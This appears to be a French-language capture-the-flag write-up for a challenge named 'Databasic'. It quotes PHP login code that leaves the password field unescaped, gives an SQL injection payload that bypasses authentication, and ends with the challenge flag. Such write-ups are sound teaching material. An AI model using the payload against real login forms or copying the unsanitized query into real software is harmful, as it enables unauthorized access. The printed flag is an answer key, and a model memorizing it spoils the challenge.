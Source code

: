 # Databasic

1. Tout d’abord, passons par le Web et affichons le code source sur le référentiel git. 
2. Ensuite, nous pouvons découvrir le code source ici : 
    ```
    $query = sprintf("SELECT * FROM haxorz_memberz WHERE login = '%s' AND password = MD5('%s')",
		mysqli_real_escape_string($con, $_POST['login']),
		$_POST['password']
	);
    ```
    [mysqli_real_escape_string()](https://www.php.net/manual/en/mysqli.real-escape-string.php)

    Comme vous pouvez le voir, la partie "login" est filtrée par la commande "mysqli_real_escape_string()", donc évidemment nous ne pouvons pas utiliser l’injection sql dessus. Cependant, voyons la partie "mot de passe" et nous sommes en mesure de découvrir qu’elle n’est pas filtrée. C’est clairement qu’il peut s’agir d’une injection sql.
3. Ensuite, nous devons remarquer une partie du code : 
    ```
    if (@mysqli_num_rows($sql) == 1)
		$auth = TRUE;
    ```
    [mysqli_num_rows()](https://www.w3schools.com/php/func_mysqli_num_rows.asp)

    Comme vous pouvez le constater, nous devons satisfaire la situation pour obtenir le flag. Pour atteindre l’objectif, nous devons utiliser le mot-clé "limit" pour nous aider. 
4. Voici le payload: 
    ```
    login : admin
    password : ') or 1=1 limit 1 #
    ```
    Donc la phrase veut maintenant dire : 
    ```
    SELECT * FROM haxorz_memberz WHERE login = 'admin' AND password = MD5('') or 1=1 limit 1 #')
    ```
5. **Voici le flag :** `W3C{wen_eta_mysqli_real_md5_string()?}`
